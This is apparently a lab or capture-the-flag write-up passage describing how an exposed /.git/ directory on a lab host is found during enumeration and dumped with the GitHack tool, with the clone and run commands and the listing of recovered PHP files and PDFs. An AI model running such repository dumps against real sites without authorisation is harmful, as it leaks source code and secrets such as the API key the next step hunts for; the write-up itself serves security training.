 On the enumerate section there's a <font color="#ffc000">|_  /.git/HEAD: Git</font>  folder. Accessing the directory gives the 403 status.

Hidden directories, left accidentally (or not) on the server, might be a very valuable source of sensitive data leaks. More info https://github.com/bl4de/research/tree/master/hidden_directories_leaks#hidden-directories-and-files-as-a-source-of-sensitive-information-about-web-application.


## Install the exploit.
`$ git clone https://github.com/lijiejie/GitHack.git` 

Run the exploit.
`$ python3 GitHack.py http://10.10.25.126/.git/` 

[+] Download and parse index file ...
[+] CTX_WSUSpect_White_Paper.pdf
[+] Context_Red_Teaming_Guide.pdf
[+] Context_White_Paper_Pen_Test_101.pdf
[+] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
+ Glibc_Adventures-The_Forgotten_Chunks.pdf
+ api.php
+ functions.php
+ home.php
+ index.php
+ info.php
OK home.php
OK functions.php
OK info.php
OK api.php
OK index.php
OK Context_White_Paper_Pen_Test_101.pdf
OK Context_Red_Teaming_Guide.pdf
OK Glibc_Adventures-The_Forgotten_Chunks.pdf
OK CTX_WSUSpect_White_Paper.pdf
OK Demystifying_the_Exploit_Kit-Context_White_Paper.pdf

**Next step:** [[1. What is the API key that fits the following pattern- "AND*"]]

